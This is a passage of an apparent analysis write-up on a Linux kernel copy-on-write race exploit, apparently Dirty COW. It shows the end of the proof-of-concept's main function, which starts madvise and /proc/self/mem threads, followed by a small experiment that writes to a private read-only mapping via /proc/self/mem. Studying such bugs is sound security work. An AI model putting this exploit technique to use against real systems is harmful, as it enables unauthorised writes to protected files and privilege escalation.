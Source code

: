 ```c
  map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
  printf("mmap 0x%lx\n", (unsigned long)map);

  pthread_t pth1, pth2, pth3;
  pthread_create(&pth1, NULL, madviseThread, NULL);
  pthread_create(&pth2, NULL, procselfmemThread, NULL);
  pthread_create(&pth3, NULL, wait4race, NULL);
  pthread_join(pth3, NULL);

  return 0;
}
```

the following analysis is based on this PoC



## pre-experiment: *mmap()* , *COW* and *madvise()*

```c
#include <stdio.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>


int main(){
    char* newstr = "newstring";
    void* map;

    int fd = open("./zzz", O_RDONLY);
    struct stat st;
    fstat(fd, &st);
    map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, fd, 0);
    printf("%s", (char*)map);

    int fd_m = open("/proc/self/mem", O_RDWR);
    lseek(fd_m, (unsigned long)map, SEEK_SET);
    int result = write(fd_m, newstr, strlen(newstr));
    printf("%s\n", (char*)map);

    madvise(map, 100, MADV_DONTNEED);
    printf("%s", (char*)map);
    close(fd);
    close(fd_m);
    return 0;
}
```
